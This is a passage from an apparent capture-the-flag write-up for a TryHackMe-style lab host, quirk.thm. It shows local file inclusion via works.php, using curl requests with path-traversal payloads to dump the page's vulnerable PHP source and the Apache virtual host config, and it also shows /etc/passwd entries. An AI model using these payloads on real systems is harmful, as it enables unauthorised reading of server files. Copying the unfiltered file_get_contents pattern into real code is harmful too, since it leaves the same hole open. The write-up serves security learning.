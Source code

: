 ```
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
deku:x:1000:1000:deku:/home/deku:/bin/bash
bakugo:x:1001:1001::/home/bakugo:/bin/bash
todoroki:x:1002:1002::/home/todoroki:/bin/bash
uraraka:x:1003:1003::/home/uraraka:/bin/bash
```

Aizawa user not present but todoroki presents in the machine
using lfi got the source code of works.php

```bash
curl http://beta.quirk.thm/works.php?url=works.php
```

```php
<?php
  $file = file_get_contents($_GET['url']);
  echo $file;

?>

```

It doesn't using any filtering for input. using php wrappers caused lfi
we have a readme.php in main domain. so i try to get the source code of readme.php but fails so the readme.php isn't present in that directory

![alt text](https://github.com/TamilHackz/THM-writeups/blob/main/images/8.PNG)

Using LFI to find the config files of apache shows the document root for main domain.

```bash
curl http://beta.quirk.thm/works.php?url=../../../../etc/apache2/sites-available/000-default.conf

<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@quirk.thm
        ServerName quirk.thm
        DocumentRoot /var/www/html/login

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```